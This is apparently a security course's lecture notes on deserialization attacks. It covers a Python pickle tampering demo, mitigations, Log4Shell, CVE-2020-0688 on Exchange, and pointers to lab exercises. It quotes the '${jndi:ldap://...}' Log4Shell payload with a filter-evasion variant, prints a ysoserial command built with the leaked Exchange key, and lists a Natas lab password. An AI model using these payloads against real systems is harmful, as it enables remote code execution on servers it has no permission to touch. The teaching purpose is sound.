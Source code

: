 * Deserialization attacks

* Intro

- serialization/deserialization is a widely-used concept in modern
  languages for storing objects (structured data)

#+begin_src python
# example in Python:
import pickle

class A:
    def __init__(self, x):
        print("construct " + x)
        self.x = x
    
    def __del__(self):
        print("destruct " + self.x)
#+end_src

#+begin_src python
# Serialize the class
a = A("hello")
a_bytes = pickle.dumps(a)
del(a)
#+end_src

#+begin_example
construct hello
destruct hello
#+end_example

#+begin_src python
# Deserialize the class
print(a_bytes)
a_bytes = a_bytes[:-5] + b'a' + a_bytes[-4:]
a = pickle.loads(a_bytes)
del(a)
#+end_src

#+begin_example
b'\x80\x04\x95%\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x01A\x94\x93\x94)\x81\x94}\x94\x8c\x01x\x94\x8c\x05hello\x94sb.'
destruct hella
#+end_example

** The problem?

Object integrity is lost once you pass it through some untrusted
channel - give it to the user to store some temporary data (think
authentication cookies stored this way) - send over the network - store
it in a database

** The solution?

- sanity checks required: e.g. cryptographically sign serialized objects
  to maintain integrity
- Java (e.g. RMI) does type checking: the receiving end deserializes the
  object, checks the type, if the type does not match then destroy the
  object

** OWASP resources

- [[https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/][A08:2021 -- Software and Data Integrity Failures]]
- [[https://www.owasp.org/index.php/Deserialization_Cheat_Sheet][Deserialization cheatsheet]]

* Exercise: OWASP WebGoat

- Run the following docker image:
  https://hub.docker.com/r/webgoat/goatandwolf

- Go through A08 - software and data integrity

** Exercise: do Natas 26

http://natas26.natas.labs.overthewire.org/

#+begin_example
username = natas26
password = oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
#+end_example

** Remote Code Execution with destructors

- RMI receives an object of a class present in your classpath
- constructs the object, checks the type (mismatch), destroys the object
- the destructor executes arbitrary code from the user
- if anywhere in your classpath you have an object that executes
  arbitrary code upon destruction, you have a path to RCE

** Exercise: Deserialize to B()

[[./code/3-deserialization/Serial.java][Serial.java]]

** Exercise: Serial Killer

- download ysoserial
- go to
  https://github.com/archang31/aacs4-writeups/tree/master/BinaryExploitation/SerialKiller

** log4shell [[[https://en.wikipedia.org/wiki/Log4Shell#Behavior][wikipedia]]]


#+begin_quote
The Java Naming and Directory Interface (JNDI) allows for lookup of Java
objects at program runtime given a path to their data. [...]
#+end_quote

#+begin_quote
In the default configuration, when logging a string, Log4j 2 performs
string substitution on expressions of the form =${prefix:name}=. [...]
Among the recognized expressions is =${jndi:<lookup>};= by specifying
the lookup to be through LDAP, an arbitrary URL may be queried and
loaded as Java object data. =${jndi:ldap://example.com/file}= [...] will
load data from that URL if connected to the Internet. By inputting a
string that is logged, an attacker can load and execute malicious code
hosted on a public URL. [...]
#+end_quote

#+begin_quote
Because HTTP requests are frequently logged, a common attack vector is
placing the malicious string in the HTTP request URL or a commonly
logged HTTP header, such as User-Agent.
#+end_quote

#+begin_quote
Early mitigations included blocking any requests containing potentially
malicious contents, such as =${jndi=. Such basic string matching
solutions can be circumvented by obfuscating the request:
=${${lower:j}ndi=, for example, will be converted into a JNDI lookup
after performing the lowercase operation on the letter =j=. Even if an
input, such as a first name, is not immediately logged, it may be later
logged during internal processing and its contents executed.
#+end_quote

#+caption: log4shell diagra
[[file:img/log4j_attack.jpg]]

Source: [[https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/][Swiss CERT]]

More resources:
[[https://github.com/pentesterland/Log4Shell][pentesterland]]

** Exercise: exploit log4shell

- Join [[https://tryhackme.com/room/solar][tryhackme/solar]]
- Follow the [[https://www.youtube.com/watch?v=PGJVLjgC2e4][video walkthrough by cryptocat]]

* JEP 290

- [[http://openjdk.java.net/jeps/290][JEP 290]]
- [[https://mogwailabs.de/de/blog/2019/03/attacking-java-rmi-services-after-jep-290/][Attacking Java RMI services after JEP 290]]

** [[https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0688][CVE-2020-0688]]: RCE on MS Exchange

- Released Feb.25 2020

- Exchange servers had the same =validationKey= and =decryptionKey= on
  all installs

- =ViewState= is server-side data that ASP.NET web applications store in
  serialized format on the client
  [[file:img/4-deserialization-attacks_files/image.png]]

- Having access to the secret keys (it was the same for all MS Exchange
  installs) it was possible to craft a malicious =ViewState= that runs
  arbitrary code on the server:

#+begin_example
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo OOOPS!!! > c:/Vuln_Server.txt" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="05ae4b41-51e1-4c3a-9241-6b87b169d663" --isdebug –islegacy
#+end_example

[[attachment:image.png]]

Source: [[https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys][Zero Day Initiative]]

* Back to first principles

#+caption: image.png
[[file:img/4-deserialization-attacks_files/image.png]]

* References

- [[http://frohoff.github.io/appseccali-marshalling-pickles/][Marshalling Pickles (Slides + Video)]]
- [[https://github.com/frohoff/ysoserial][ysoserial: Deserialization attack framework for Java]]
- [[https://github.com/pwntester/ysoserial.net][ysoserial.net: .NET deserialization attack framework]]
- [[https://paper.bobylive.com/Meeting_Papers/BlackHat/USA-2012/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf][Are you my type - blackhat 2012]]
- [[https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys][Remote code execution on Microsoft Exchange]]
- [[https://www.youtube.com/watch?v=w2F67LbEtnk][Log4j vulnerability explained]]
- https://blog.tneitzel.eu/posts/01-attacking-java-rmi-via-ssrf/
